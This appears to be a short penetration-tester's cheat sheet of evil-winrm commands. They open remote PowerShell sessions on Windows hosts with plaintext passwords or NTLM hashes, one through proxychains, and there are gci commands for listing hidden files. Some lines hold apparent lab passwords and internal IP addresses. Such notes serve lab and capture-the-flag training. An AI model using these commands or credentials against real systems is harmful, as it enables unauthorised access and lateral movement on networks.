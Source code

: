```
evil-winrm -u Administrator -p 'EverybodyWantsToWorkAtP.O.O.'  -i <IP>/<Domain>
```

```
proxychains evil-winrm -i $IP -u $username -H $NTLMhash
```

```
evil-winrm -i <remoteIP> -u 'username' -p 'password'
```

```
gci -recurse .
```

```
gci -hidden
```

```
evil-winrm -i 192.168.50.220 -u daveadmin -p "qwertqwertqwert123\!\!"
```

```
evil-winrm -i 172.31.3.6 -u administrator -H ---------
```
